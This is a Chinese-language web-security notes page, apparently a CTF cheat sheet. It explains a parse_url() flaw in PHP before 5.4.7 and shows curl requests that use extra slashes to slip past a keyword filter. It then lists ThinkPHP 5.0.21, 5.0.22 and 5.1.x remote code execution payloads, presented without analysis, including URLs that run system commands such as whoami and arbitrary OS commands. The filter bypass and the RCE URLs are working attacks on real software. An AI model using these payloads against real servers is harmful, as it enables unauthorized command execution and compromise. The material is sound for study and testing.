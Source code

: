 ### 函数的漏洞

#### parse_url()

```php
parse_url ( string $url [, int $component = -1 ] ) : mixed
```

&emsp;&emsp;该函数解析URL，并返回其组成部分。其返回值为一个关联数组。该函数常用于获取url中的相关字段。例如：

```php
$url=parse_url($_SERVER['REQUEST_URI']);
parse_str($url['query'],$query);
```

通过这种方式拿到url中的GET value。但是在php5.4.7之前此函数存在漏洞，举个栗子：

```php
<?php 
$data = parse_url($_SERVER['REQUEST_URI']); 
var_dump($data);
$filter=["cache", "binarycloud"]; 
foreach($filter as $f)
{ 
        if(preg_match("/".$f."/i", $data['query']))
        { 
                die("Attack Detected"); 
        } 
} 
?>
```

正常情况下我们`curl "127.0.0.1/a.php?/cache"`会被检测到，这个时候一个通用的绕过方式为：

```shell
curl "127.0.0.1//a.php?/cache"
```

这时`a.php?/cache`会被当作data['path']，而不再是query，导致绕过过滤。假如payload为`///a.php?/cache`那么parse_url()会返回False，也可以绕过过滤。



### Thinkphp5 rce
&emsp;&emsp;不再分析原理，直接总结payload：
```url
TP版本5.0.21：
http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

http://localhost/thinkphp_5.0.21/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1


TP版本5.0.22：
http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami

http://url/to/thinkphp_5.0.22/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

TP5.1.*
thinkphp5.1.29为例

1、代码执行:
http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=phpinfo&data=1

2、命令执行:
http://url/to/thinkphp5.1.29/?s=index/\think\Request/input&filter=system&data=操作系统命令
```